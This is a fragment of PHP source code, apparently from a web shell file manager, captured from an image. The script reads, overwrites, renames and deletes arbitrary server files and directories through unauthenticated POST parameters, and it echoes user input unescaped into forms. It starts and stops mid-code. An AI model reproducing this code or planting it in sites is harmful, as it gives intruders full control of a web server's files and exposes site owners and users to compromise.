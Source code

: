 ```
}
$_POST['name'] = $_POST['newname'];
}
echo '<form method="POST">
New Name : <input name="newname" type="text" size="20" value="'.$_POST['name'].'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="rename">
<input type="submit" value="Go" />
</form>';
}elseif($_POST['opt'] == 'edit'){
if(isset($_POST['src'])){
$fp = fopen($_POST['path'],'w');
if(fwrite($fp,$_POST['src'])){
echo '<font color="green">Edit File Done ~_^.</font><br />';
}else{
echo '<font color="red">Edit File Error ~_~.</font><br />';
}
fclose($fp);
}
echo '<form method="POST">
<textarea cols=80 rows=20 name="src">'.htmlspecialchars(file_get_contents($_POST['path'])).'</textarea><br />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="edit">
<input type="submit" value="Go" />
</form>';
}
echo '</center>';
}else{
echo '</table><br /><center>';
if(isset($_GET['option']) && $_POST['opt'] == 'delete'){
if($_POST['type'] == 'dir'){
if(rmdir($_POST['path'])){
echo '<font color="green">Delete Dir Done.</font><br />';
}else{
echo '<font color="red">Delete Dir Error.</font><br />';
}
}elseif($_POST['type'] == 'file'){
if(unlink($_POST['path'])){
echo '<font color="green">Delete File Done.</font><br />';
}else{
echo '<font color="red">Delete File Error.</font><br />';
}
}
}
echo '</center>';
$scandir = scandir($path);
echo '<div id="content"><table width="700" border="0" cellpadding="3" cellspacing="1" align="center">
<tr class="first">
<td><center>Name</center></td>
<td><center>Size</center></td>
<td><center>Permissions</center></td>
<td><center>Options</center></td>
</tr>';

foreach($scandir as $dir){
if(!is_dir("$path/$dir") || $dir == '.' || $dir == '..') continue;
echo "<tr>
<td><a href=\"?path=$path/$dir\">$dir</a></td>
<td><center>--</center></td>
<td><center>";
if(is_writable("$path/$dir")) echo '<font color="green">';
```